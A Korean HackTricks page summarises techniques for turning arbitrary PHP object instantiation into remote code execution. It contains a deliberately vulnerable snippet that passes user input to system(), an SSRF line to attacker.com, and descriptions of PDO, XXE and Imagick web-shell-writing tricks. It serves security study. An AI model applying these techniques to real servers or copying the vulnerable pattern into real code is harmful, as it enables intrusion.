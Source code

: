 # PHP - RCE 객체 생성 남용: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 제출**하세요.

</details>

이것은 기본적으로 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)의 요약입니다.

## 소개

`new $_GET["a"]($_GET["a"])`와 같은 임의의 객체 생성은 원격 코드 실행(RCE)로 이어질 수 있습니다. 자세한 내용은 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에서 설명되어 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## 사용자 정의 클래스 또는 Autoloading을 통한 RCE

`syntax new $a($b)`는 **`$a`**가 클래스 이름을 나타내고 **`$b`**가 생성자에 전달되는 첫 번째 인수인 객체를 인스턴스화하는 데 사용됩니다. 이러한 변수는 문자열 또는 배열일 수 있는 GET/POST와 같은 사용자 입력 또는 다른 유형으로 나타날 수 있는 JSON과 같은 곳에서 가져올 수 있습니다.

다음 코드 스니펫을 고려해보세요:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우에는 `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령어 (예: `uname -a`)로 설정하면 해당 명령어가 실행됩니다.

**자동로드 함수**는 직접 액세스할 수 있는 클래스가 없는 경우에 악용될 수 있습니다. 이러한 함수는 필요할 때 파일에서 클래스를 자동으로 로드하며 `spl_autoload_register` 또는 `__autoload`를 사용하여 정의됩니다.
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP 버전에 따라 자동로딩의 동작이 다르므로 RCE 가능성도 다양합니다.

## 내장 클래스를 통한 RCE

사용자 정의 클래스나 오토로더가 없는 경우에도 **내장 PHP 클래스**만으로도 RCE가 가능합니다. PHP 버전과 확장에 따라 이러한 클래스의 수는 100에서 200개 사이입니다. `get_declared_classes()`를 사용하여 이러한 클래스를 나열할 수 있습니다.

관심 있는 생성자는 reflection API를 통해 식별할 수 있으며, 다음 예제와 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)에서 확인할 수 있습니다.

**특정 메서드를 통한 RCE에는 다음이 포함됩니다:**

### **SSRF + Phar 역직렬화**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 가능하게 하여 모든 URL에 연결할 수 있습니다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 PHP 8.0 이전 버전에서 Phar 프로토콜을 사용하여 역직렬화 공격을 유발할 수 있습니다.

### **PDOs 악용하기**

PDO 클래스 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있으며, 이를 통해 파일 생성 또는 기타 상호작용이 가능합니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 버전 5.3.22 및 5.4.12까지의 버전은 `SoapClient` 및 `SimpleXMLElement` 생성자를 통해 XXE 공격에 취약했습니다. 이는 libxml2의 버전에 따라 달렸습니다.

## Imagick 확장을 통한 RCE

**프로젝트의 종속성** 분석에서 **Imagick**이 새로운 객체를 인스턴스화하여 **명령 실행**에 이용될 수 있다는 것을 발견했습니다. 이는 취약점을 악용할 수 있는 기회를 제공합니다.

### VID 파서

VID 파서는 파일 시스템의 임의의 경로에 내용을 작성할 수 있는 기능을 갖고 있습니다. 이로 인해 PHP 셸을 웹에서 접근 가능한 디렉토리에 배치하여 원격 코드 실행 (RCE)을 달성할 수 있습니다.

#### VID 파서 + 파일 업로드

PHP는 업로드된 파일을 `/tmp/phpXXXXXX`에 임시로 저장한다는 것을 알 수 있습니다. Imagick의 VID 파서는 **msl** 프로토콜을 사용하여 파일 경로에 와일드카드를 처리할 수 있으므로 임시 파일을 선택한 위치로 전송할 수 있습니다. 이 방법은 파일 시스템 내에서 임의의 파일 작성을 달성하기 위한 추가적인 접근 방법을 제공합니다.

### PHP 충돌 + 브루트 포스

[**원래의 설명서**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제 전에 서버 충돌을 유발하는 파일을 업로드하는 것입니다. 임시 파일의 이름을 브루트 포스하여 Imagick이 임의의 PHP 코드를 실행할 수 있게 됩니다. 그러나 이 기술은 오래된 ImageMagick 버전에서만 효과적이라는 것을 발견했습니다.

## 참고 자료

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family)인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)을 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.

</details>
